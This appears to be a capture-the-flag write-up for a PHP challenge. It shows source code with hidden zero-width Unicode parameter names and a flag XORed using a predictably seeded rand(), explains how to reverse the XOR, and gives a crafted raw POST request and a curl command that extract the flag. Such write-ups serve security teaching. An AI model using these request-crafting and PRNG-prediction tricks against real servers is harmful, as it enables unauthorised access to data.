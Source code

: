 ### Messy PHP
There are lots of Unicode characters in the parameter, careful
After removed comments and useless code, the code is

```php
<?php

include_once('flag.php');

if ((isset($_POST['😂']) and isset($_POST['🤣']) and isset($_GET['KEY'])) or isset($_GET['is_this_flag？'])){
    srand(20191231 + 20200101 + time());
    $mystr = 'Happy New  Year⁠!~~~';
    $array1 = str_split($fllllllag, 1);
    $array2 = str_split($mystr, 1);
    $array3 = str_split($_GET['KEY'], 1);
    $final = '';
    foreach( $array1 as $value ){
        $final .= @strval(ord($value) ^ rand() ^ $array2[rand() % count($array2)] ^ ($array3[rand() % count($array3)] * random_int(1,128))) . ' ';
    }
    if ($_POST['​😂'] == md5($_POST['🤣​'])){
        echo $final;
    }else{
        die('bye!');
    }
}else{
    die('bye!');
}
```

The code finally did three xor for the each character of the flag.
But since we can predict the rand() by passing the same rand seed, we can reverse the process of xor function.
Also, the last xor is xor with the input `KEY`, we can just simply give \x00 to reduce it.


We already mention that it has lots of Unicode characters in it, and the raw packet will look like this

```shell
POST /index.php?KEY=%00 HTTP/1.1
Host: 34.82.101.212
Accept: */*
Content-Type: application/x-www-form-urlencoded
Connection: close

%E2%80%8B%F0%9F%98%82=c4ca4238a0b923820dcc509a6f75849b&%F0%9F%A4%A3%E2%80%8B=1&%F0%9F%98%82=1&%F0%9F%A4%A3=1
```

We can use curl to send the request

```shell
curl 'http://server/index.php?KEY=%00' --data-raw '%E2%80%8B%F0%9F%98%82=c4ca4238a0b923820dcc509a6f75849b&%F0%9F%A4%A3%E2%80%8B=1&%F0%9F%98%82=1&%F0%9F%A4%A3=1'
```

